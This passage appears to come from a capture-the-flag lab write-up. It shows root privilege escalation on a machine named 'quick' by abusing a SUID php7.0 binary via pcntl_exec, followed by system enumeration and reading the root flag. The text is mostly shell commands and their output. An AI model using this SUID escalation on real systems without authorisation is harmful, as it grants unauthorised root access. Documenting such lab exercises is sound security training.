 ```bash
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
www-data@quick:/$ 

```
We can see that `/usr/bin/php7.0` is a SUID file. We can check  [GTFObins](https://gtfobins.github.io/gtfobins/php/#suid) to see how we can exploit it.

## Privilege escalation
Since it is well explained how we can exploit this misconfiguration we can simply apply it to our target.
```bash
www-data@quick:/$ CMD="/bin/sh"
CMD="/bin/sh"
www-data@quick:/$ /usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
/usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
# 
```
We got an interactive shell, so we can check who we are, what membership we have and where we are working.
```bash
# whoami;id;hostname;pwd;ip a
whoami;id;hostname;pwd;ip a
root
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
quick
/
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:41:d3:56 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.29/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 320sec preferred_lft 320sec
    inet6 fe80::a00:27ff:fe41:d356/64 scope link 
       valid_lft forever preferred_lft forever
```
We are root!  Now we can capture the root flag.
```bash
# ls /root
ls /root
root.txt  snap
# cat /root/root.txt
cat /root/root.txt


            ___.............___
         ,dMMMMMMMMMMMMMMMMMMMMMb.
        dMMMMMMMMMMMMMMMMMMMMMMMMMb
        |        | -_  - |        |
        |        |_______|___     |
        |     ___......./'.__`\   |
        |_.-~"               `"~-.|
        7\         _...._        |`.
       /  l     .-'      `-.     j  \
      :   .qp. / __________ \ .qp.   :
      |  d8888b |          | d8888b  |
  .---:  `Y88P|_|__________|_|Y88P'\/`"-.
```